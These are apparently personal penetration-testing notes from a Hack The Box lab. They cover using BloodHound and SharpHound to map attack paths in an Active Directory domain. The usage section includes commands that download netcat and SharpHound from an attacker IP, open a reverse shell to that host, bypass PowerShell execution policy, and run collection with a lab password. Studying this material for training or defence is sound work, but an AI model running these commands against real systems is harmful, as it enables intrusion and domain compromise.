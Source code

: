 ```yaml
---
tags:
  - Exploitation
  - OperatingSystems
  - Windows
  - ActiveDirectory
  - Tooling
---
```

[BloodHound](https://github.com/BloodHoundAD/BloodHound)

Used to visually map out AD relationships and help plan attack paths that may otherwise go unnoticed. Uses the SharpHound PowerShell or C# ingestor to gather data to later be imported into the BloodHound JavaScript (Electron) application with a Neo4j database for graphical analysis of the AD environment.

[BloodHound.py](https://github.com/fox-it/BloodHound.py)

A Python-based BloodHound ingestor based on the Impacket toolkit. It supports most BloodHound collection methods and can be run from a non-domain joined attack box. The output can be ingested into BloodHound 3.0 for analysis.


## Usage

`sudo neo4j console`

http://localhost:7474/browser/

Then type **bloodhound** into local shell

`Invoke-WebRequest -Uri 'http://10.10.14.16:8000/nc.exe' -Outfile C:\Users\svc-alfresco\Desktop\nc.exe`

`C:\Users\svc-alfresco\Desktop\nc.exe -e cmd.exe 10.10.14.16 4444`

`Invoke-WebRequest -Uri 'http://10.10.14.16:8000/SharpHound.ps1' -Outfile C:\Users\svc-alfresco\Desktop\SharpHound.ps1`

`PowerShell -Exec Bypass`

`. .\SharpHound.ps1`
`invoke-bloodhound -collectionmethod all -domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice`

Get back to box and drag into blood hound

The sandwich menu button (the red box in the above image) was pressed and the “Find Shortest Paths to Domain Admins” link was pressed:

Research main connection element eg Exchange Windows Permissions

https://chryzsh.github.io/exploiting-privexchange/

Click on the EDGE between nodes for help

https://github.com/fox-it/aclpwn.py